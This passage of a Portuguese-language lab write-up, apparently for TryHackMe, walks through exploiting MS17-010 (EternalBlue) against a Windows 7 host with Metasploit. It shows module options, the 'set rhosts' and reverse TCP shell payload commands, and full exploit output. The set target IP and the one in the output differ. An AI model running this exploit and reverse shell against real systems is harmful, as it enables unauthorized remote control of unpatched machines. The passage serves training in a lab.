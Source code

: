 ```
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.15.70    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```

Ainda seguindo o artigo, eu configurei o ip da máquina com o seguinte comando:

```
set rhosts 10.10.168.234
```

```
rhosts => 10.10.168.234
```

Após isto, utilizei o seguinte comando:

```
set payload windows/x64/shell/reverse_tcp
```

Depois disso, segui as instruções do THM e utilizei o comando exploit/run. O comando me deu o seguinte resultado:

```
[*] Started reverse TCP handler on 192.168.15.70:4444 
[*] 10.10.45.201:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.45.201:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.45.201:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.45.201:445 - The target is vulnerable.
[*] 10.10.45.201:445 - Connecting to target for exploitation.
[+] 10.10.45.201:445 - Connection established for exploitation.
[+] 10.10.45.201:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.45.201:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.45.201:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.45.201:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.45.201:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.45.201:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.45.201:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.45.201:445 - Sending all but last fragment of exploit packet
[*] 10.10.45.201:445 - Starting non-paged pool grooming
[+] 10.10.45.201:445 - Sending SMBv2 buffers
[+] 10.10.45.201:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.45.201:445 - Sending final SMBv2 buffers.
[*] 10.10.45.201:445 - Sending last fragment of exploit packet!
[*] 10.10.45.201:445 - Receiving response from exploit packet
[+] 10.10.45.201:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.45.201:445 - Sending egg to corrupted connection.
[*] 10.10.45.201:445 - Triggering free of corrupted buffer.
[-] 10.10.45.201:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.45.201:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.45.201:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.45.201:445 - Connecting to target for exploitation.
[+] 10.10.45.201:445 - Connection established for exploitation.
```